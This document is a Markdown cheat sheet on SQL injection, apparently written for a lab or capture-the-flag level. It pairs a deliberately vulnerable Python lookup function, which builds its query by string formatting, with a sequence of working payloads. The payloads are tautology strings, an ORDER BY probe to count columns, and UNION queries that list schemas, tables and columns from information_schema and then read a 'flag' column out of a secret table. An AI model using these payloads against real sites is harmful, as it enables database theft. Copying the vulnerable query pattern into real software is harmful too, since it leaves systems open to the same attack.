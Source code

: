 # SQLi
## The source is [here](https://owasp10-c874b6974594.notion.site/Code-Example-450b5fc335614b348956cb6087dfaa2d)


### The Basic and usefull Commands
```python
def user_exists(username: str) -> bool:
    with connection.cursor() as cursor:
        cursor.execute("""
            SELECT
                Id
            FROM
                users
            WHERE
                username = '%s'
        """ % username)
        result = cursor.fetchone()
    id, = result
    return id
```
* attack is like this
```sql
user_exists('test') #False
#SELECT id from users WHERE username = 'test'

user_exists("'; SELECT 1=1; --") #True
#SELECT id from users WHERE username = ''; SELECT true; --'
```

```sql
'; SELECT 1=1; -—
```
```sql
'; SELECT 1=1; #
```
### Simplest injection
```sql
' or 1=1#
```
```sql
' or 1=1--
```
### UNION ATTACK 
when a web application show Direct result, we should use UNION Attack

```sql
SELECT * from news WHERE news_id = $NEWSID;
SELECT * from news WHERE news_id = '$NEWSID';
SELECT * from news WHERE news_id = "$NEWSID";
```
when a web application show Indirect result, 

```plain text
Default request:
page/?id=54

Test 1:
page/?id=54  order by 1
page/?id=54' order by 1#
page/?id=54" order by 1#

Test 2:
page/?id=54  order by 1000
page/?id=54' order by 1000#
page/?id=54" order by 1000#
```

We can confirm the SQLi when results of:

- Default == Test 1
- Test 1 ≠ Test 2


```sql
' order by 1 #
' order by 2 # ==> sql error so there was 1 column
```
```sql
' UNION SELECT 1#
' UNION SELECT group_concat(schema_name) FROM information_schema.schemata #
```
 - database names is ==> information_schema,level2



```sql
' UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='level2' #
```
```sql
SELECT
	group_concat( table_name ) 
FROM
	information_schema.tables 
WHERE
	table_schema = 'level2'#
```
or
```sql
' UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() #
```
```sql
SELECT 
    group_concat(table_name)
FROM
    information_schema.tables
WHERE
    table_schema=database() #
```
 - level2 tables is ==> my_secret_table,users


```sql
' UNION SELECT group_concat( column_name ) FROM	information_schema.COLUMNS WHERE table_schema = DATABASE () AND table_name = 'my_secret_table' #
```
```sql
SELECT
	group_concat( column_name ) 
FROM
	information_schema.COLUMNS 
WHERE
	table_schema = DATABASE () 
	AND table_name = 'my_secret_table' #
```
 - columns of my_secret_table is ==> flag


```sql
' UNION SELECT flag from level2.my_secret_table #
```
Now data is here


<center><hr style="border:2px solid gray; width:60%; text-align:center"></center>

asfddf